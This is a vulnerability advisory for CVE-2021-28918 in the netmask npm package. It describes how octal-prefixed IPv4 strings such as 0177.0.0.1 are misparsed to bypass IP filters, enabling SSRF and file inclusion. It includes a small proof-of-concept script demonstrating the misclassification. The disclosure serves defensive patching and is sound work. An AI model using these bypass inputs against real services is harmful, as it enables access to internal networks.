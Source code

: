 ### Title
netmask npm package - Improper Input Validation in netmask npm package v1.1.0 and below of octal literals results in indeterminate SSRF & RFI vulnerabilities.

### CVE ID
CVE-2021-28918

### CVSS Score
Pending

### Internal ID
SICK-2021-011
        
### Vendor
netmask project
        
### Product
netmask

### Product Versions
v1.1.0 and below

### Vulnerability Details

Improper input validation of octal strings in widely used netmask npm package v1.1.0 and below allows unautenticated remote attackers to perform indeterminate SSRF, RFI, and LFI attacks on many of the dependent packages. The netmask npm package incorrectly evaluates individual ipv4 octets that contain octal strings as left-stripped integers, leading to an inordinate attack surface on hundreds of thousands of projects that rely on netmask to filter or evaluate ipv4 block ranges, both inbound and outbound. For example, a remote unauthenticated attacker can request local resources using input data 0177.0.0.1 (127.0.0.1), which netmask evaluates as public IP 177.0.0.1. Contrastingly, a remote authenticated or unauthenticated attacker can input the data 0127.0.0.01 (87.0.0.1) as localhost, yet the input data is a public IP and potentially cause local and remote file inclusion (LFI/RFI). A remote authenticated or unauthenticated attacker can bypass packages that rely on netmask to filter IP address blocks to reach intranets, VPNs, containers, adjacent VPC instances, or LAN hosts using input data such as 012.0.0.1 (10.0.0.1), which netmask evaluates as 12.0.0.1 (public).

### Vendor Response
Fixed in version v2.0.0

### Proof of Concept


```bash
# cd /tmp
mkdir -p netmask_poc/node_modules
cd netmask_poc
npm i netmask@1.0.6

node <<'EOF'

var Netmask = require('netmask').Netmask

var block = new Netmask('31.0.0.0/8');
block.base;                     // 10.0.0.0
block.mask;                     // 255.240.0.0
block.bitmask;                  // 12
block.hostmask;                 // 0.15.255.255
block.broadcast;                // 10.15.255.255
block.size;                     // 1048576
block.first;                    // 10.0.0.1
block.last;                     // 10.15.255.254

console.log(block.contains('#######################'));

console.log(block.first);
console.log('thru');
console.log(block.last);

console.log('is 31.5.5.5 in that block?');
console.log(block.contains('31.5.5.5'));

console.log('is 031.5.5.5 (25.5.5.5) in that block?');
console.log(block.contains('031.5.5.5'));

console.log('is 31.5.5.5 (25.5.5.5) in that block?');
console.log(block.contains('31.5.5.5'));

console.log(block.contains('#######################'));

var block = new Netmask('127.0.0.0/8');

console.log(block.first);
console.log('thru');
console.log(block.last);

console.log('is 127.0.0.2 in that block?');
console.log(block.contains('127.0.0.2'));

console.log('is 0177.0.0.2 (127.0.0.2) in that block?');
console.log(block.contains('0177.0.0.2'));

console.log(block.contains('#######################'));

var block = new Netmask('255.0.0.1/8');

console.log(block.first);
console.log('thru');
console.log(block.last);


console.log('is 255.255.255.2 in that block?');
console.log(block.contains('255.255.255.2'));

console.log('is 0255.0.0.2 (173.0.0.2) in that block?');
console.log(block.contains('0255.0.0.2'));

console.log(block.contains('#######################'));

var block = new Netmask('10.0.0.1/8');

console.log(block.first);
console.log('thru');
console.log(block.last);

console.log('is 10.5.7.1 in that block?');
console.log(block.contains('10.5.7.1'));

console.log('is 10.0.0.255 in that block?');
console.log(block.contains('012.0.0.255'));

console.log(block.contains('#######################'));

var block = new Netmask('1.0.0.1/8');

console.log(block.first);
console.log('thru');
console.log(block.last);

console.log('is 1.2.3.4 in that block?');
console.log(block.contains('1.2.3.4'));

console.log('is 01.2.3.4 in that block?');
console.log(block.contains('01.2.3.4'));

console.log(block.contains('#######################'));

EOF
```

#### Disclosure Timeline
* **2021-03-16** - Researchers discover vulnerability
* **2021-03-17** - Vendor notified
* **2021-03-17** - CVE requested
* **2021-03-19** - CVE assigned CVE-2021-28918
* **2021-03-28** - Vulnerability published

### Links

[https://github.com/sickcodes/security/blob/master/advisories/SICK-2021-011.md](https://github.com/sickcodes/security/blob/master/advisories/SICK-2021-011.md)

[https://sick.codes/universal-netmask-npm-package-used-by-270000-projects-vulnerable-to-octal-input-data-server-side-request-forgery-remote-file-inclusion-local-file-inclusion-and-more-cve-2021-28918](https://sick.codes/universal-netmask-npm-package-used-by-270000-projects-vulnerable-to-octal-input-data-server-side-request-forgery-remote-file-inclusion-local-file-inclusion-and-more-cve-2021-28918)

[https://sick.codes/sick-2021-011](https://sick.codes/sick-2021-011)

[https://www.npmjs.com/package/netmask](https://www.npmjs.com/package/netmask)

[https://github.com/rs/node-netmask](https://github.com/rs/node-netmask)

### Researchers

Victor Viale: [https://github.com/koroeskohr](https://github.com/koroeskohr) || [https://twitter.com/koroeskohr](https://twitter.com/koroeskohr)

Sick Codes: [https://github.com/sickcodes](https://github.com/sickcodes) || [https://twitter.com/sickcodes](https://twitter.com/sickcodes)

Kelly Kaoudis: [https://github.com/kaoudis](https://github.com/kaoudis) || [https://twitter.com/kaoudis](https://twitter.com/kaoudis)

John Jackson [https://www.twitter.com/johnjhacking](https://www.twitter.com/johnjhacking)

Nick Sahler: [https://github.com/nicksahler](https://github.com/nicksahler) || [https://twitter.com/tensor_bodega](https://twitter.com/tensor_bodega) 

Olivier Poitrey [https://github.com/rs](https://github.com/rs) || [https://twitter.com/olivier_poitrey](https://twitter.com/olivier_poitrey)

#### CVE Links

[https://sick.codes/sick-2021-011](https://sick.codes/sick-2021-011)

[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-28918](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-28918)

[https://nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-28918](https://nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-28918)
